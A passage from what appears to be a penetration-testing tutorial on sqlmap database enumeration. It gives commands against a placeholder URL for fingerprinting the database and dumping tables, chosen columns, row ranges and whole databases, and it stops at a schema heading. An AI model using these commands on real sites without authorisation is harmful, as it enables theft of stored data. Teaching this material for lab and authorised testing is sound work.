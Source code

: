 These are some flags for enumeration:
- Database version banner (`--banner`)
- Current user name (`--current-user`)
- Current database name (`--current-db`)

Simply add this flags:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

> The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context
{: .prompt-alert}

## Table Enumeration

To get the tables (`--tables`) from a specific DB (`-D <db name>`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

To dump (`--dump`) all the data from a table (`-T <table name>`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

> We can change the dump output file format with `--dump-format`
{: .prompt-tip}

## Table/Row Enumeration 

When dealing with large tables with many columns and/or rows, we can specify the columns (`-C`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

We can limit how much we want to see:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

## Conditional Enumeration 

If there is a requirement to retrieve certain rows based on a known WHERE condition (`--where`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

## Full DB Enumeration 

We can retrieve all the db with `--dump-all`. It is recommendable to skip some default tables: `--dump-all --exclude-sysdbs`.

## DB Schema Enumeration 
